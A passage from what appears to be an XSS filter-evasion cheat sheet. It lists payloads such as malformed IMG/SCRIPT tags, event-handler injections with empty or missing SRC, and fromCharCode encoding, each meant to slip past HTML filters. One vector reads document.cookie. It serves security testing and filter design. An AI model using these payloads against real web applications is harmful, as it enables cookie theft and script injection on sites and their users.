 Chrome automatically inserts missing quotes for you. If you encounter issues, try omitting them and Chrome will correctly place the missing quotes in URLs or scripts for you:

```js
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

(Submitted by David Cross, Verified on Chrome)

### Malformed IMG Tags

This XSS method uses the relaxed rendering engine to create an XSS vector within an IMG tag (which needs to be encapsulated within quotes). We believe this approach was originally meant to correct sloppy coding and it would also make it significantly more difficult to correctly parse HTML tags:

```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

(Originally found by Begeek, but it was cleaned up and shortened to work in all browsers)

### fromCharCode

If the system does not allow quotes of any kind, you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

```html
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
```

### Default SRC Tag to Get Past Filters that Check SRC Domain

This attack will bypass most SRC domain filters. Inserting JavaScript in an event handler also applies to any HTML tag type injection using elements like Form, Iframe, Input, Embed, etc. This also allows the substitution of any relevant event for the tag type, such as `onblur` or `onclick`, providing extensive variations of the injections listed here:

```html
<IMG SRC=# onmouseover="alert('xxs')">
```

(Submitted by David Cross and edited by Abdullah Hussam)

### Default SRC Tag by Leaving it Empty

```html
<IMG SRC= onmouseover="alert('xxs')">
```

### Default SRC Tag by Leaving it out Entirely

```html
<IMG onmouseover="alert('xxs')">
```

### On Error Alert
